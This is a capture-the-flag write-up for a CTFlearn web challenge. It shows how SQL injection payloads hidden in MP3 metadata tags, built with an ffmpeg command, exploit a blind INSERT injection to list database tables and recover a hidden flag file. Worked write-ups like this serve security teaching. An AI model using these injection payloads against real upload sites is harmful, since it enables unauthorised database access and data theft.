








We are given a website where we can upload and edit `.mp3` files.  



When we upload a regular audio file, we are redirected to the editing page, where we can notice that the webpage attempts to extract and display the author and title from the file metadata.  



Accessing an invalid file using `/edit.php?file=` will also display a database error, hinting towards an SQLi vulnerability.  



We can use `ffmpeg` to create an audio file with a test SQLi payload in the `title` field.  

```bash
ffmpeg -y -f lavfi -i anullsrc=r=44100:cl=mono -t 1 \
    -metadata "title=' or 1 #"  \
    -metadata "artist=hi"   \
    -q:a 9 test.mp3
```

Uploading our payload file will cause the webpage to display the error below, confirming that this is an `INSERT` SQLi vuln.  



We can deduce that the `INSERT` query is probably something like `INSERT INTO <table> (author, title) VALUES ('<author>', '<title>')`, so we can structure our payload as shown below to leak database information.  

```sql
' || (select 123) || '
```

When we test our payload by `SELECT`ing different values, we will notice that the webpage will display only either `0` or `1`, showing that this is a blind SQLi.  



Using the payloads to bruteforce the database structure will reveal that there is only a singular `audioedit` table, with columns `id`, `file`, `author` and `title`.  

```sql
select table_name from information_schema.tables where table_schema=database()   -- audioedit
select column_name from information_schema.columns where table_name="audioedit" limit 1 offset 0
```

We can then search for any entries which contain `flag` or `admin` in any of the columns, and we can find that there is an audio file in the database with title `flag`.  

Do note that we have to use a derived table to `SELECT` `audioedit`, as `INSERT` is modifying the table at the same time we are querying it.  

```sql
select count(*) > 0 from (select * from audioedit) as x where x.title like "%flag%"
```

We can then bruteforce the filename of that audio file, revealing that it is `supersecretflagf1le.mp3`.  

```sql
select x.file (select * from audioedit) as x where x.title="flag"
```

However, when we access the flag file in the editing page, we can't see anything helpful.  



We can instead access and download the file directly from `https://web.ctflearn.com/audioedit/supersecretflagf1le.mp3`, then view the spectrogram in Audacity, revealing the flag.  



Flag: `ABCTF{m3t4_inj3cti00n}`